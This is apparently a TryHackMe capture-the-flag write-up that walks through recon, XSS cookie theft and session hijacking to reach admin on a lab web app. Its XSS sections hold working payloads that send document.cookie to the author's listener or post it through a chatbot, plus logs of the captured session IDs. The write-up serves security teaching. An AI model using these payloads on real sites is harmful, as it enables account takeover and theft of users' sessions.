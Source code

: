 ```yaml
---
title: "TryHackMe - What's Your Name?"
date: 2025-06-20 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [xss, CSRF ]
--- 
```



This challenge will test client-side exploitation skills, from inspecting Javascript to manipulating cookies to launching CSRF/XSS attacks.

## Reconnaissance

I started with a full port scan using **nmap** to identify open services on the target machine:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap  -T4 -sV -sC -p- 10.10.26.74 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 06:44 EDT
Nmap scan report for worldwap.thm (10.10.26.74)
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dd:53:33:5b:68:eb:0b:e0:0a:2a:f0:fa:a3:5e:93:10 (RSA)
|   256 00:87:b6:51:1e:89:b6:30:67:33:36:c2:e6:30:dc:5d (ECDSA)
|_  256 5b:5e:b7:d6:24:3a:0a:d1:c5:cf:37:9a:e5:b9:df:ec (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Welcome
|_Requested resource was /public/html/
8081/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Scan results : 

- 22/tcp   open  ssh     OpenSSH 8.2p1 (Ubuntu)
- 80/tcp   open  http    Apache httpd 2.4.41
- 8081/tcp open  http    Apache httpd 2.4.41

## Web enumaration

After adding the domain `worldwap.thm` to my `/etc/hosts` file, I visited the website. The main page allowed me to register an account. After successful registration, I saw a message:

> "You'd need to visit login.worldwap.thm to login once you register successfully."

![1](/images/whatsyourname/1.jpg)

I added that subdomain to my hosts file too and navigated to it.

The page was blank at first glance, but checking the source code revealed this comment:


![2](/images/whatsyourname/2.jpg)
So I manually visited http://login.worldwap.thm/login.php and found a login form.

![3](/images/whatsyourname/3.jpg)

Unfortunately, the credentials I created earlier didn’t work.
![3b](/images/whatsyourname/3b.jpg)

## Stealing a Moderator's Cookie via XSS 

Suspecting a vulnerability, I attempted to inject a simple XSS payload by sending an email that contained this script: 

![4](/images/whatsyourname/4.jpg)

```
<script>new Image().src='http://10.23.x.x:1337/log?c='+document.cookie</script>
```
> This script sends the victim’s cookies to my server running on port 1337.

I hosted a listener with Python:

```
sudo python3 -m http.server 1337
```


And it worked! I received requests with the following data:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.26.74 - - [20/Jun/2025 07:06:00] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:06:00] "GET /log?c=PHPSESSID=8ss9dd7o48h9821sttmv66vjrh HTTP/1.1" 404 -
10.10.26.74 - - [20/Jun/2025 07:07:01] code 404, message File not found
10.10.26.74 - - [20/Jun/2025 07:07:01] "GET /log?c=PHPSESSID=7c42qdip0p52292bvpfkh79pop HTTP/1.1" 404 
```

## Using the Stolen Session

I copied one of the stolen PHPSESSID values and injected it into my browser cookies. Then I reloaded http://login.worldwap.thm/login.php and logged in using the default credentials: hacker:hacker.

This time, I was successfully logged in as a moderator.


![5](/images/whatsyourname/5.jpg)
![6](/images/whatsyourname/6.jpg)



## Eploiting the Chat Bot with XSS again

On the moderator page, I noticed a chatbot feature. I tested it for XSS and, unsurprisingly, it was also vulnerable.


![7](/images/whatsyourname/7.jpg)



I sent the following payload to the chatbot:



```
<script>
fetch("/chat.php", {
    "credentials": "include",
    "headers": {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    "body": "message="+document.cookie,
    "method": "POST",
    "mode": "cors"
});
</script>
```

 **What Does This Script Do?**

- fetch(): A modern JavaScript API for making HTTP requests.

- /chat.php: The endpoint used by the chatbot.

- credentials: "include": Ensures the victim's cookies are included in the request.

- body: "message="+document.cookie: Sends the session cookie in the message field.

This trick allowed me to capture the admin's session cookie.

## Admin Access Achieved 

After replacing my browser cookie with the stolen admin session, I refreshed the page and was immediately logged in as the administrator.

![8](/images/whatsyourname/8.jpg)